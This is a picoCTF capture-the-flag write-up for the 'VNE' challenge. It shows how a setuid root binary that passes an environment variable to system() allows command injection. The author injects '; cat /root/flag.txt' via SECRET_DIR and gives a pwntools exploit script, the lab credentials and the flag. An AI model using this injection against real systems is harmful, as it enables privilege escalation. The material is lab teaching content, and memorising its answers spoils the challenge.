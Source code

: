 # VNE

## Challenge

The challenge description is as follows:

> We've got a binary that can list directories as root, try it out !!
> ssh to saturn.picoctf.net:65169, and run the binary named "bin" once connected.
> Login as ctf-player with the password, 3f39b042

We are given credentials to connect to a server via SSH.

In our home directory, there is a single file:

```
ctf-player@pico-chall$ ls -l
total 20
-rwsr-xr-x 1 root root 18752 Mar 16 01:59 bin
```

It is a set-uid binary which will run as root.

If we run the binary, we get the following error:

```
ctf-player@pico-chall$ ./bin
Error: SECRET_DIR environment variable is not set
```

Setting this variable to a directory allows us to list files in the directory as if we were root:

```
ctf-player@pico-chall$ ls /root
ls: cannot open directory '/root': Permission denied
```

```
ctf-player@pico-chall$ SECRET_DIR="/root" ./bin
Listing the content of /root as root: 
flag.txt
```

However, we cannot read files like this, so we cannot simply read /root/flag.txt.

## Solution

We can download the binary from the server to analyze it for vulnerabilities.

Loading it into Ghidra, we see that it is a simple C++ binary which reads a string from the `SECRET_DIR` environment variable, prepends "ls " to it, then passes the result to `system`.

This results in a trivial command-line injection vulnerability.
We can end the `ls` command with a semicolon and insert our own shell commands, which will also be run as root.

```
ctf-player@pico-chall$ SECRET_DIR="/challenge; cat /root/flag.txt" ./bin
Listing the content of /challenge; cat /root/flag.txt as root: 
config-box.py  metadata.json  profile
picoCTF{Power_t0_man!pul4t3_3nv_1670f174}
```

## Exploit

```py
#!/usr/bin/env python3

from pwn import *

host = args.HOST or 'saturn.picoctf.net'
port = int(args.PORT or 59474)
username = 'ctf-player'
password = '3f39b042'

s = ssh(host=host, port=port, user=username, password=password)
io = s.process('/bin/sh', env={'PS1':''})
io.sendline(b"SECRET_DIR='.; cat /root/flag.txt' ./bin")

io.interactive()
```

## Flag

```
picoCTF{Power_t0_man!pul4t3_3nv_1670f174}
```
